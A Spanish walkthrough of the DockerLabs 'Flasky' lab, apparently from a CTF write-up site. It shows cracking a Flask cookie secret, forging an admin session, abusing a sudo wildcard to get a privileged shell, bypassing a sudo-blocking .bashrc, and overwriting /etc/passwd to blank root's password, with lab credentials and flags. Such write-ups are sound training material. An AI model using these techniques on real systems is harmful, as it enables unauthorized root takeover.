








# Flasky DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria Flasky

<figure><figcaption></figcaption></figure>

### Descripción

Flasky es una máquina basada en **Linux** que expone una aplicación web desarrollada en **Python con Flask**. El reto combina vulnerabilidades en la gestión de sesiones web con configuraciones inseguras a nivel de sistema, permitiendo encadenar múltiples fallos hasta obtener acceso como **root**.

El ataque comienza con la manipulación de cookies de sesión firmadas, seguido de acceso SSH con credenciales expuestas y varias escaladas de privilegios mediante configuraciones incorrectas de `sudo`.

**Objetivo del reto**

Comprometer completamente la máquina obteniendo:

* Acceso inicial mediante la aplicación web
* Acceso al sistema vía SSH
* Escalada de privilegios hasta **root**
* Recuperación de las flags (`user.txt` y `root.txt`)

**Tipo de máquina**

* Web + Linux
* Escalada de privilegios local
* Gestión de sesiones insegura

**Habilidades y técnicas evaluadas**

* Enumeración de servicios
* Análisis de aplicaciones Flask
* Manipulación y cracking de cookies firmadas
* Uso de herramientas como `flask-unsign`
* Acceso SSH con credenciales obtenidas
* Escalada de privilegios mediante `sudo`
* Explotación de wildcard en rutas
* Abuso de binarios con permisos elevados

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip flasky.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh flasky.tar
```

Respuesta:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-18 11:52 -0400
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.11.15)
| http-title: CTF Terminal
|_Requested resource was /login
|_http-server-header: Werkzeug/3.0.1 Python/3.11.15
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Observamos que hay **dos puertos abiertos**:

* **22/tcp** → Servicio SSH
* **5000/tcp** → Servicio HTTP servido por **Werkzeug (Python)**

El puerto `5000` es especialmente interesante, ya que comúnmente se utiliza en aplicaciones desarrolladas con **Flask**, por lo que probablemente estemos ante una aplicación web en Python.

Accedemos al servicio web:

```
URL = http://<IP>:5000/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Nos encontramos con un panel de **login** aparentemente sencillo. Sin embargo, también existe la opción **“INITIALIZE NEW USER”**, que nos permite registrar un nuevo usuario introduciendo credenciales básicas (`usuario:password`).

Tras registrar un usuario e iniciar sesión, accedemos al panel:

<figure><figcaption></figcaption></figure>

Aquí podemos ver información de nuestro usuario, incluyendo que tenemos el rol **`USER`**. Nuestro objetivo será escalar privilegios hasta obtener un rol con mayores permisos, como **`ADMIN`**.

## Escalate user peter

### Crack / Manipulación de Cookie

<figure><figcaption></figcaption></figure>

Tras realizar varias pruebas, una idea interesante es analizar la **cookie de sesión**, ya que muchas aplicaciones Flask utilizan cookies firmadas para almacenar información del usuario.

Decidimos decodificar la cookie para entender su estructura interna.

> decodeTOKEN.py

```python
import base64
import zlib
import json

# El token completo
token = "<TOKEN_COOKIE>"

# Extraer el payload
parts = token.split('.')
if len(parts) >= 2:
    payload_b64 = parts[1]
    
    # Decodificar base64
    padded = payload_b64 + '=' * (4 - len(payload_b64) % 4)
    compressed = base64.urlsafe_b64decode(padded)
    
    # Descomprimir zlib
    try:
        data = zlib.decompress(compressed)
        print("Payload decodificado:")
        print(data.decode('utf-8'))
        print("\nJSON formateado:")
        print(json.dumps(json.loads(data), indent=2))
    except:
        print("Error al descomprimir")

# Ver el timestamp
if len(parts) >= 3:
    timestamp_b64 = parts[2]
    padded = timestamp_b64 + '=' * (4 - len(timestamp_b64) % 4)
    timestamp_bytes = base64.urlsafe_b64decode(padded)
    # El timestamp podría ser un entero o una cadena
    print(f"\nTimestamp (bytes): {timestamp_bytes}")
```

Ejecutamos el script:

```shell
python3 decodeTOKEN.py
```

Info:

```
Payload decodificado:
{"profile":"user","user_id":3,"username":"diseo"}

JSON formateado:
{
  "profile": "user",
  "user_id": 3,
  "username": "diseo"
}

Timestamp (bytes): b'i\xba\xd0Q'
```

Esto confirma que la cookie contiene un **payload serializado (JSON)** con información del usuario, incluyendo el campo `profile`.

Una vez identificada la estructura, intentamos modificar el valor de `profile` a `admin` y reutilizar la cookie. Sin embargo, esto no funciona debido a que la cookie está **firmada criptográficamente**, por lo que cualquier modificación invalida la firma.

### Fuerza bruta del secreto de firma

Para resolver esto, utilizamos la herramienta `flask-unsign`, que permite:

* Decodificar cookies Flask
* Realizar fuerza bruta sobre la clave secreta
* Firmar nuevas cookies válidas

Instalamos la herramienta:

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install flask-unsign
```

Una vez instalada, utilizamos nuestra **cookie de sesión original** como entrada y le proporcionamos una **wordlist** (por ejemplo `rockyou.txt`) para intentar descubrir la clave secreta con la que está firmada.

```shell
flask-unsign --unsign --cookie '<TOKEN_COOKIE>' --wordlist <WORDLIST> --no-literal-eval
```

Respuesta:

```
[*] Session decodes to: {'profile': 'user', 'user_id': 3, 'username': 'diseo'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

Tras varios intentos, la herramienta consigue recuperar la clave secreta utilizada para firmar la cookie:

```
secret123
```

Conociendo esta clave, ya es posible generar una cookie válida manipulada, en este caso suplantando al usuario con rol `admin`.

```shell
flask-unsign --sign --cookie '{"profile": "admin", "user_id": 1, "username": "admin"}' --secret 'secret123'
```

Respuesta:

```
.eJyrViooyk_LzElVslJKTMnNzFPSUSotTi2Kz0xRsjKEsPMScxHStQCvxRDS.abrWDg.0S8vyXbOQS3P2Mqo-x13AH8OEgY
```

A continuación, sustituimos el valor de la cookie en el navegador (desde las herramientas de desarrollador, pestaña **Storage → Cookies**, campo `session`):

<figure><figcaption></figcaption></figure>

Una vez modificada, recargamos la página:

<figure><figcaption></figcaption></figure>

Observamos que la manipulación ha sido exitosa, ya que ahora disponemos de privilegios de **administrador**. Esto nos permite acceder a información sensible, entre ella las credenciales del usuario `peter` para acceso por SSH.

<figure><figcaption></figcaption></figure>

### SSH (peter)

```shell
ssh peter@<IP>
```

Metemos como contraseña `e6okFUI4`...

```
Linux 78b632c0011e 6.17.10+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.17.10-1kali1 (2025-12-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
peter@78b632c0011e:~$ whoami
peter
```

Accedemos correctamente al sistema como el usuario `peter`, por lo que leeremos la `flag` del usuario.

> user.txt

```
DL_USER{Zk8N8v3+Sd50Q7m@P2x-Rb9@}
```

## Escalate user pan

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for peter on 78b632c0011e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User peter may run the following commands on 78b632c0011e:
    (pan) NOPASSWD: /usr/bin/bash /home/pan/*
```

Esto indica que el usuario `peter` puede ejecutar como el usuario `pan` cualquier archivo dentro de `/home/pan/` utilizando `bash`, sin necesidad de contraseña.

Un detalle crítico aquí es el uso del **comodín (`*`)**, ya que permite expandir rutas de forma amplia. Esto incluye no solo archivos dentro del directorio, sino también referencias relativas como `.` y `..`.

Aprovechando esto, podemos realizar un **path traversal** para escapar del directorio `/home/pan` y ejecutar un script arbitrario desde otra ubicación, como `/tmp`.

Primero, creamos un script que nos proporcione una shell:

```shell
echo -e '#!/bin/bash\nbash -p' > /tmp/shell.sh
chmod +x /tmp/shell.sh
```

A continuación, lo ejecutamos aprovechando el wildcard y la ruta relativa:

```shell
sudo -u pan bash /home/pan/../../tmp/shell.sh
```

Respuesta:

```
pan@78b632c0011e:/home/peter$ whoami
pan
```

Con esto conseguimos escalar correctamente al usuario `pan`.

## Escalate privileges

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
BROKEN SUDO
```

Este comportamiento no es normal, por lo que es probable que se esté manipulando el comando `sudo` mediante configuración del entorno, típicamente a través de `.bashrc`.

Comprobamos el contenido del archivo:

```shell
cat ~/.bashrc
```

Respuesta:

```
.....................................<RESTO DE INFO>...............................
# Protección de sudo
sudo() {
    echo "BROKEN SUDO"
    return 1
}

# También bloquear sudo su, sudo -i, etc.
alias sudo='sudo'  # Esto hace que el alias no evite la función
```

Aquí se está redefiniendo la función `sudo` para inutilizarla, lo cual impide su uso normal.

### Bypass del bloqueo de sudo

Dado que no disponemos de editores como `nano`, utilizamos `sed` para comentar las líneas que implementan esta restricción:

```shell
sed -i '/alias.*sudo/s/^/#/' ~/.bashrc
sed -i '/# Protección de sudo/,/}/s/^/#/' ~/.bashrc
source .bashrc
```

Verificamos que el contenido ha sido correctamente comentado:

```
.....................................<RESTO DE INFO>...............................
## Protección de sudo
#sudo() {
#    echo "BROKEN SUDO"
#    return 1
#}

# También bloquear sudo su, sudo -i, etc.
#alias sudo='sudo'  # Esto hace que el alias no evite la función
```

Ahora eliminamos la función `sudo` cargada en memoria:

```shell
unset -f sudo
```

Al ejecutar nuevamente `sudo -l`, obtenemos el comportamiento esperado:

```
Matching Defaults entries for pan on 78b632c0011e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pan may run the following commands on 78b632c0011e:
    (ALL : ALL) NOPASSWD: /usr/bin/mv
```

### Abuso de sudo sobre `mv`

<figure><figcaption></figcaption></figure>

Observamos que podemos ejecutar el binario `mv` como `root` sin contraseña. Esto es crítico, ya que `mv` permite **sobrescribir archivos del sistema**.

Primero, inspeccionamos el archivo `/etc/passwd`:

```shell
cat /etc/passwd
```

Respuesta:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:996:996:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:995:65534:sshd user:/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:,,,:/home/peter:/bin/bash
pan:x:1001:1001:,,,:/home/pan:/bin/bash
```

El campo `x` indica que la contraseña está almacenada en `/etc/shadow`. Si eliminamos este valor, el usuario `root` quedará sin contraseña.

### Modificación de `/etc/passwd`

Creamos una copia modificada del archivo en `/tmp`, eliminando la `x` del usuario `root`:

```shell
cd /tmp
cat > passwd << 'EOF'
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:996:996:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:995:65534:sshd user:/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:,,,:/home/peter:/bin/bash
pan:x:1001:1001:,,,:/home/pan:/bin/bash
EOF
```

(Se mantiene el resto del contenido igual)

Una vez creado, sobrescribimos el archivo original utilizando `mv` con privilegios de `root`:

```shell
mv passwd /etc/passwd
```

Verificamos el cambio:

```shell
cat /etc/passwd
```

Respuesta:

```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:996:996:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:995:65534:sshd user:/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:,,,:/home/peter:/bin/bash
pan:x:1001:1001:,,,:/home/pan:/bin/bash
```

Ahora la entrada de `root` aparece sin contraseña:

```
root::0:0:root:/root:/bin/bash
```

### Escalada a root

Finalmente, accedemos como `root` sin necesidad de contraseña:

```shell
su root
```

Respuesta:

```
root@78b632c0011e:/tmp# whoami
root
```

Con esto obtenemos acceso completo al sistema como `root`, por lo que leeremos la `flag` del mismo.

> root.txt

```
DL_ROOT{fL3#zN8vT1%hWk9@G4s#Y2q&}
```
